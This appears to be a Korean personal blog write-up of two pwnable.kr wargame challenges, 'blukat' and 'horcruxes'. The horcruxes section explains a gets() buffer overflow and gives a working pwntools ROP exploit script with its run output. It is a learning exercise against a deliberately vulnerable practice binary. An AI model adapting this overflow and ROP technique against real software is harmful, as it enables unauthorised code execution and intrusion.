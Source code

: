 ```yaml
---
layout: post
title: ! '[pwnable.kr] blukat & horcruxes'
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
---
```


[pwnable.kr](http://pwnable.kr)에서 `Toddler's Bottle` 올클했는데 두 문제 더나왔다.

그래서 광복절에 동방에 아무도 없길래 심심해서 풀었당.

코드 이쁘게 짜기 연습도 할겸 잼있었당.

<!--more-->

# blukat

> Sometimes, pwnable is strange...
>
> hint: if this challenge is hard, you are a skilled player.
>
> 
>
> ssh blukat@pwnable.kr -p2222 (pw: guest)

ssh 연결 문제다. 접속해 보자.

> blukat@ubuntu:~$ ls -la
>
> total 28
>
> drwxr-x---  2 root blukat     4096 Aug  8 06:44 .
>
> drwxr-xr-x 92 root root       4096 Aug 12 10:28 ..
>
> -r-xr-sr-x  1 root blukat_pwn 9144 Aug  8 06:44 blukat
>
> -rw-r--r--  1 root root        645 Aug  8 06:43 blukat.c
>
> -rw-r-----  1 root blukat_pwn   33 Jan  6  2017 password
>
> blukat@ubuntu:~$ id
>
> uid=1104(blukat) gid=1104(blukat) groups=1104(blukat),1105(blukat_pwn)

?

> blukat@ubuntu:~$ cat password
>
> cat: password: Permission denied
>
> blukat@ubuntu:~$ ./blukat 
>
> guess the password!
>
> cat: password: Permission denied
>
> congrats! here is your flag: 

......................?????

이게뭐야

# horcruxes

> Voldemort concealed his splitted soul inside 7 horcruxes.
>
> Find all horcruxes, and ROP it!
>
> author: jiwon choi
>
> 
>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

이것도 ssh 연결 문제.

> horcruxes@ubuntu:~$ cat readme 
>
> connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn 
>
> privilege.
>
> rop it to read the flag.

 인 척 하는 nc 문제 (?)

 랜덤으로 a~g 값 만들어주고 그 값을 전부 더한 값이 내가 입력한 값이랑 같으면 클리어.

 근데 문제는 그 값을 알게해주는 함수들은 그 값을 입력해야 된다.

 예를들어 a 값을 알고싶으면 a를 입력해야 하는 형식. 뭐야이게

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic01.PNG) 

 ropme 함수에 gets 함수 있따. 야호 BOF 가능

 BOF 해서 함수들 순회하면서 값 유출하고 sum 입력해주면 짜자잔 되겠당

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic02.PNG) 

근데 `ropme` 함수에 `0x00` 바이트 있다 헝헝 ㅠㅠ

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic03.PNG) 

그니까 `main` 함수에서 콜하는 부분으로 뛰면 되겠네 ㅎ

```python
from pwn import *
from ctypes import *

HOST = "localhost"
PORT = 9032
r = remote(HOST, PORT)
horcruxes = [0x0809FE4B, 0x0809FE6A, 0x0809FE89, 0x0809FEA8, 0x0809FEC7, 0x0809FEE6, 0x0809FF05]
main_call_ropme = 0x0809fffc

def main () :
	exp = 0
	r.recvuntil("Menu:")
	r.sendline('1')
	r.recvuntil(" : ")
	payload = "A"*116
	payload += "B"*4 # SFP
	for i in range (7) :
		payload += p32(horcruxes[i])
	payload += p32(main_call_ropme)
	r.sendline(payload)

	for i in range (7) :
		r.recvuntil("+")
		tmp = r.recvuntil(")", drop=True)
		log.info(tmp)
		exp += int(tmp)
	log.info("exp : " + str(c_int(exp).value))
	r.recvuntil("Menu:")
	r.sendline("1")
	r.recvuntil(" : ")
	r.sendline(str(c_int(exp).value))
	r.interactive()

if __name__ == '__main__' :
	main()
```

근데 더할때 `4 bytes integer overflow` 일어나잖아...?

파이썬이 이상하게 더해줄탠데...

그래서 `ctypes` 모듈 써 봤다.

요로코롬 하면 자동으로 `overflow`까지 생각해서 계산해준다.

> horcruxes@ubuntu:/tmp/---$ python exploit.py 
>
> [+] Opening connection to localhost on port 9032: Done
>
> [*] 154861037
>
> [*] 479571890
>
> [*] 862848645
>
> [*] 248990705
>
> [*] 1911103787
>
> [*] 284725373
>
> [*] 197217576
>
> [*] exp : -155648283
>
> [*] Switching to interactive mode
>
> ---flag is here---

끗~